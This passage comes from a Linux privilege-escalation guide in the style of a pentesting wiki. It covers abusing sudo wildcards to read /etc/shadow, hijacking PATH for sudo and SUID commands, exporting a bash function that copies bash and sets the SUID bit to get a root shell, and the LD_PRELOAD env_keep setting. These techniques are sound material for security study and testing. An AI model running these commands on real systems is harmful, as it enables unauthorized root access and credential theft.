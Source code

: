 If a **wilcard** is used (\*), it is even easier:

```bash
sudo less /var/log/../../etc/shadow #Read shadow
sudo less /var/log/something /etc/shadow #Red 2 files
```

**Countermeasures**: [https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/](https://blog.compass-security.com/2012/10/dangerous-sudoers-entries-part-5-recapitulation/)

### Sudo command/SUID binary without command path

If the **sudo permission** is given to a single command **without specifying the path**: _hacker10 ALL= (root) less_ you can exploit it by changing the PATH variable

```bash
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```

This technique can also be used if a **suid** binary **executes another command without specifying the path to it (always check with** _**strings**_ **the content of a weird SUID binary)**.

[Payload examples to execute.](payloads-to-execute.md)

### SUID binary with command path

If the **suid** binary **executes another command specifying the path**, then, you can try to **export a function** named as the command that the suid file is calling.

For example, if a suid binary calls _**/usr/sbin/service apache2 start**_ you have to try to create the function and export it:

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

Then, when you call the suid binary, this function will be executed

### LD\_PRELOAD

**LD\_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

To avoid this mechanism being used as an attack vector for _suid/sgid_ executable binaries, the loader ignores _LD\_PRELOAD_ if _ruid != euid_. For such binaries, only libraries in standard paths that are also _suid/sgid_ will be preloaded.

If you find inside the output of **`sudo -l`** the sentence: _**env\_keep+=LD\_PRELOAD**_ and you can call some command with sudo, you can escalate privileges.

```
Defaults        env_keep += LD_PRELOAD
```

